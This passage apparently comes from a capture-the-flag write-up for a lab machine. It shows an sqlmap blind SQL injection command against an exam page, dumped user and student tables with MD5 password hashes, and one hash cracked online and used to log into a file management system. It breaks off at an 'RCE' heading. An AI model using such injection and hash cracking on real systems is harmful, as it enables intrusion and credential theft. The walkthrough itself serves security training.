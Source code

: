 ```
| 1       | administrator | Administrator | admin            | Administrator | fc8ec7b43523e186a27f46957818391c |
| 2       | Regular       | Anthony       | UndetectableMark | Mark          | b35e311c80075c4916935cbbbd770cef |
| 4       | Regular       | Smith         | Stev1992         | Steven        | 112dd9d08abf9dcceec8bc6d3e26b138 |
+---------+---------------+---------------+------------------+---------------+----------------------------------+
...[snip]...

```

Each user has an MD5 hash as their password. Admin and Mark share their passwords from ERMS. Still, to log in, I need a student number and a password, which isn’t what’s in this table.

The `student` table has what I’m looking for:

```

oxdf@hacky$ sqlmap -D db_sfms -T student --dump -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch --threads 10
...[snip]...
Database: db_sfms
Table: student
[4 entries]
+---------+----+--------+---------+----------+----------------------------------------------------+-----------+
| stud_id | yr | gender | stud_no | lastname | password                                           | firstname |
+---------+----+--------+---------+----------+----------------------------------------------------+-----------+
| 1       | 1A | Male   | 12345   | Smith    | 1a40620f9a4ed6cb8d81a1d365559233                   | John      |
| 2       | 2B | Male   | 23347   | Mille    | abb635c915b0cc296e071e8d76e9060c                   | James     |
| 3       | 2C | Female | 31234   | Shane    | a2afa567b1efdb42d8966353337d9024 (autodestruction) | Kelly     |
| 4       | 3C | Female | 43347   | Hales    | a1428092eb55781de5eb4fd5e2ceb835                   | Jamie     |
+---------+----+--------+---------+----------+----------------------------------------------------+-----------+
...[snip]...

```

Kelly Shane’s password breaks in [CrackStation](https://crackstation.net/):

![image-20220503210845030](https://0xdfimages.gitlab.io/img/image-20220503210845030.png)

At the School File Management System, logging in with 31234 and “autodestruction” works.

### RCE
